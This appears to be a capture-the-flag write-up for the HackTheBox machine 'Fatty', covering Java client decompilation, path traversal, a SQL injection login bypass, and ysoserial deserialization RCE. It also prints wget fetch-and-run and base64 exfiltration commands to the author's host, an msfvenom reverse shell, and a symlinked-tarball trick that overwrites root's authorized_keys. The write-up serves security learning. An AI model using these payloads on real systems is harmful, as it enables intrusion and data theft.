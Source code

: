 * Fatty
** Enumeration
*** meta
# Nmap 7.80 scan initiated Sun May 24 19:44:38 2020 as: nmap -Pn -sC -sV -oA logs/nmap 10.10.10.174
Nmap scan report for 10.10.10.174
Host is up (0.054s latency).
Not shown: 998 closed ports
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun May 24 19:44:51 2020 -- 1 IP address (1 host up) scanned in 13.20 seconds
*** 21/tcp open  ftp     vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 ftp      ftp      15426727 Oct 30  2019 fatty-client.jar
| -rw-r--r--    1 ftp      ftp           526 Oct 30  2019 note.txt
| -rw-r--r--    1 ftp      ftp           426 Oct 30  2019 note2.txt
|_-rw-r--r--    1 ftp      ftp           194 Oct 30  2019 note3.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.16.100
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
*** 22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)
| ssh-hostkey: 
|   2048 fd:c5:61:ba:bd:a3:e2:26:58:20:45:69:a7:58:35:08 (RSA)
|_  256 4a:a8:aa:c6:5f:10:f0:71:8a:59:c5:3e:5f:b9:32:f7 (ED25519)
** Foothold
*** fatty-client
The only common ports open on the server initially are ~ftp~ and ~ssh~, but ~ftp~ has a treasure trove of files: the ~fatty-client.jar~ file and a series of notes explaining how to run it.

I look for a way to override the port on the command line (probably one of the only unrealistic things I found on this box!) and eventually just bite the bullet and decompile whole jar with ~jd-gui~.
**** intellij
Since I assume I'll need to make a bunch of changes to client in order to fully exploit the system, I go ahead and set up it up as an intellij project so I can easily make changes and rerun the system without repacking into a jar.
Changes required:
 * move the ~htb~ decompiled sources into a directory called ~src~
 * move the ~org~ etc class files *not the sources* into a directory called ~lib~
 * move the other loose files in the jar into a directory calle ~res~
Mark the ~src~, ~lib~, and ~res~ dirs as appropriate in in IntelliJ as source files, dependencies, and resources.
**** reading files
It was easy to disable the various access checks on the client side, but they are apparently enforced on the server as well, since they are still not accessible on the client after granting all menu buttons unconditionally.
We need a way to get more information off of the server, reading files (which the client supports directly!) seems a likely source.
trying to open a file outside of the current directory fails, the server is stripping away ~/../~ patterns.
Luckily we can change the directories viewed by ~mail~, etc, at least by popping up once, and it's enough:

#+BEGIN_SRC java
mail.addActionListener(new ActionListener()
    {
      public void actionPerformed(ActionEvent e) {
        String response = "";
        ClientGuiTest.this.currentFolder = "..";
        try {
          response = ClientGuiTest.this.invoker.showFiles("..");
        } catch (MessageBuildException|htb.fatty.shared.message.MessageParseException e1) {
#+END_SRC

This shows the contents of ~/opt/fatty/files~, which most notably contains ~fatty-server.jar~.
**** downloading files
Directly trying to open the server jar just causes the client to hang, which isn't surprising since it's trying to read it as a string. Altering the client to download files to a binary rather than converting them to strings exfiltrates the jar:


#+BEGIN_SRC java
public String open(String foldername, String filename) throws MessageParseException, MessageBuildException, IOException {
  // ...
  
  this.action = new ActionMessage(this.sessionID, "open");
  this.action.addArgument(foldername);
  this.action.addArgument(filename);
  sendAndRecv();
  if (this.response.hasError()) {
    return "Error: Your action caused an error on the application server!";
  }
  String response = "";
  try {
    OutputStream out = new FileOutputStream("out.bin");
    out.write(this.response.getContent());
    out.close();
    // response = this.response.getContentAsString();
  } catch (Exception e) {
    response = "Unable to convert byte[] to String. Did you read in a binary file?";
  } 
  return response;
}
#+END_SRC

*** fatty-server
**** logging in as admin
With the server source code in hand (decompiled and setup as a project just as the client), we can start to break the auth.

Exploring around, sure enough the login is vulnerable to SQL injection:

#+BEGIN_SRC java
    try {
      stmt = this.conn.createStatement();
      rs = stmt.executeQuery("SELECT id,username,email,password,role FROM users WHERE username='" + user.getUsername() + "'");

      
      try {
        Thread.sleep(3000L);
      } catch (InterruptedException e) {
        return null;
      } 
      
      if (rs.next()) {
        
        int id = rs.getInt("id");
        String username = rs.getString("username");
        String email = rs.getString("email");
        String password = rs.getString("password");
        String role = rs.getString("role");
        newUser = new User(id, username, password, email, Role.getRoleByName(role), false);
        
        if (newUser.getPassword().equalsIgnoreCase(user.getPassword())) {
          return newUser;
        }
        throw new LoginException("Wrong Password!");
      } 
      
      throw new LoginException("Wrong Username!");
    }
#+END_SRC

We can't alter this (except locally to test, which was valuable), but we can attack it, a ~UNION~ which provides the exact values to the result set that we want will work.

#+BEGIN_SRC sql
xxx' union select 999,'qtc','foo@bar.com','5A67EA356B858A2318017F948BA505FD867AE151D6623EC32BE86E9C688BF046','admin
#+END_SRC

where the hash provided is the same hash (computed with the given sources) of the provided credentials: ~qtc:clarabibi~.

A small problem emerges when I realize that the hash the client sends is the hash of the username + the password (which is the whole injection string!), but that's easily modified so that it sends a fixed hash that we specify:

#+BEGIN_SRC java
public void setPassword(String password) {
  String hashString = "qtc" + password + "clarabibimakeseverythingsecure";
  MessageDigest digest = null;
  try {
    digest = MessageDigest.getInstance("SHA-256");
  } catch (NoSuchAlgorithmException e) {
    e.printStackTrace();
  } 
  byte[] hash = digest.digest(hashString.getBytes(StandardCharsets.UTF_8));
  this.password = DatatypeConverter.printHexBinary(hash);
}
#+END_SRC

**** changing the password
Once logged in with admin privileges, we cn start playing with other commands. The most interesting thing is ~nestat~ which shows a localhost listener on a high port -- something for later?

After that, the most promising line is the 'unimplemented' method, 'Change Password'.

When trying to execute it, it fails because ~User~ is not serializable. That's 'fixable' on the client, where we can make both ~User~ and ~Role~ fully serializable, but the server still doesn't have working code...

But it does have code that *tries* to deserialized the ~User~ object:

#+BEGIN_SRC java
public static String changePW(ArrayList<String> args, User user) {
  // ...
  String response = "";
  
  String b64User = args.get(0);
fo(b64User);
  byte[] serializedUser = Base64.getDecoder().decode(b64User.getBytes());
  ByteArrayInputStream bIn = new ByteArrayInputStream(serializedUser);
  
  try {
    ObjectInputStream oIn = new ObjectInputStream(bIn);
    
    User user1 = (User)oIn.readObject(); // <--- PWNED
  } catch (Exception e) {
    e.printStackTrace();
    response = response + "Error: Failure while recovering the User object.";
    return response;
  } 
  
  response = response + "Info: Your call was successful, but the method is not fully implemented yet.";
  return response;
}
#+END_SRC

Even though ~User~ isn't serializable, the server tries anyway, which means we can give it a string and have it deserialize it for us before casting that to a ~User~ object. The cast will aways fail, but before it does our code will have executed!

For preparation of this payload, I use ~ysoserial~. I try a few of the payloads before finding one that works and gives the expected failure message from the server about not recognizing the object as a ~User~ (rather than some other failure).

Now we have RCE and can try to produce a shell.

https://github.com/frohoff/ysoserial

**** shell
I stumbled for a long time here, I could execute commands, most notably ~wget~ from my local server, but not much else. Things I tried that didn't work:
 * various reverse shells: bash, perl, awk, socat, nc
 * uploading an ssh key and appending it to authorized_keys
 * ping

None of it worked! The only thing I could reliably do was upload small scripts via ~wget~ then run them, for instance:

#+BEGIN_SRC bash
java -jar ysoserial.jar CommonsCollections5 "wget http://10.10.16.100:8000/cmd.sh -O cmd.sh" > src/client/payload
java -jar ysoserial.jar CommonsCollections5 "sh cmd.sh" > src/client/payload
#+END_SRC

I ran two python servers to enable introspection easy:
 ~python3 -m http.server~ on 8000 to allow upload of files
  * https://gist.github.com/mdonkers/63e115cc0c79b4f6b8b3a6b797e485c7
    for logging GET and POST requests, I used this to exfiltrate information, for instance by commanding the server to make this kind of request:
#+BEGIN_SRC bash
cmd=`ls -alh $HOME | base64`
wget 10.10.16.100:8080?res=$cmd
#+END_SRC

Then decoding the base64 query param that was sent in the GET request.

Despairing of the lack of common tools (not even bash! verified via that technique with the cmd ~`which bash`~) I finally used ~msfvenom~ to build a payload for execution:

~msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.16.100 LPORT=5555 -f elf > shell.elf~

Uploading and then running this binary gets a shell, and then ~user.txt~ which is present and owned by ~qtc~ but unreadable!

** Escalation
*** enumeration
After landing a shell, it's clear that we *are* in a very constricted environment. ~sudo~, ~curl~, ~ping~ are just some of the common tools unavailable.

Frustratingly, ~sshd~ is configured for PAM and doesn't seem to allow ~qtc~ to connect from offsite, so a more stable shell is not in hand. :(

What kind of environment is so constricted? A container!
Running through the checklist from https://www.cs.ru.nl/bachelors-theses/2020/Joren_Vrancken___4593847___A_Methodology_for_Penetration_Testing_Docker_Systems.pdf
confirms that we are in a docker container.

Unfortunately none of the 'obvious vulns' from that very good study are available.

What's active on the server (via ~ps~):
 * sshd
 * crond
 * java -jar fatty-server.jar

Investigate:
 * the start.sh script references issues with OpenRC forcing sshd and crond to be run as part of the startup script -- this may imply a vulnerability.
 * what is crond actually running? (download pspy)
 * do the other fatty-server instances have the same or different environments? (Maybe they weren't all secured?)

pspy reveals a consistent pattern every 2 minutes:

#+BEGIN_SRC bash
2020/05/26 15:51:01 CMD: UID=0    PID=2513   | sshd: [accepted]
2020/05/26 15:51:01 CMD: UID=22   PID=2514   | sshd: [net]
2020/05/26 15:51:01 CMD: UID=1000 PID=2515   | sshd: qtc
2020/05/26 15:51:01 CMD: UID=1000 PID=2516   | ash -c scp -f /opt/fatty/tar/logs.tar
2020/05/26 15:52:01 CMD: UID=0    PID=2517   | sshd: [accepted]
2020/05/26 15:52:01 CMD: UID=22   PID=2518   | sshd: [net]
2020/05/26 15:52:01 CMD: UID=1000 PID=2519   | sshd: qtc [priv]
2020/05/26 15:52:01 CMD: UID=1000 PID=2520   | scp -f /opt/fatty/tar/logs.tar
#+END_SRC

So it seems like the user ~qtc~ regularly connects with ~scp~ to the box. Possibly abusable.

Also interesting:

#+BEGIN_SRC bash
2020/05/26 16:30:00 CMD: UID=0    PID=2719   | /bin/ash -c run-parts /etc/periodic/15min
#+END_SRC

Doubtful that ~/etc/periodic/15min~ is writable, but might as well try.

Acting on the assumption that if the logs are being tarred up and then ~scp~ ed off the box that they will be untared on the other end, https://sintonen.fi/advisories/tar-extract-pathname-bypass.proper.txt looked promising, especially since the version of tar running in the container appears to be vulnerable, but using the payload generator from here https://alamot.github.io/path_traversal_archiver/ did not prove successful.

Another way to craft malicious tar payloads:
https://github.com/BuddhaLabs/PacketStorm-Exploits/blob/master/0101-exploits/tar-symlink.txt

Working on the following set of staged tarballs, which works locally, but sadly fails on the server:
#+BEGIN_SRC bash
❯ tar tvf payloads/non-working/evil-root-ssh.tar
lrwxrwxrwx user/user         0 2020-05-28 15:21 .ssh -> /root/.ssh
❯ tar tvf payloads/non-working/evil-root-key.tar
-rw-r--r-- user/user       565 2020-05-28 15:22 .ssh/authorized_keys
#+END_SRC

Taking advantage of ~scp~ was ultimately the way forward:
#+BEGIN_SRC bash
❯ tar tvf payloads/working/stage1.tar
lrwxrwxrwx user/user         0 2020-05-28 15:09 logs.tar -> /root/.ssh/authorized_keys
❯ cat payloads/working/stage2.tar
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC/hu3PqvODYkeD34dMjRLWfJEwqInWPACuqVxLaHK7lv8icOAb8t4zfnU
#+END_SRC

ROOT: ee982fa19b413415391ed4a17b2bd9c7

It turns out that the only reason my first technique doesn't work was the 'cleaning' process on the server, where between extractions the directories are cleaned, but *not* between ~scp~ executions, which meant that ~scp~ had to be targetted rather than ~tar~.

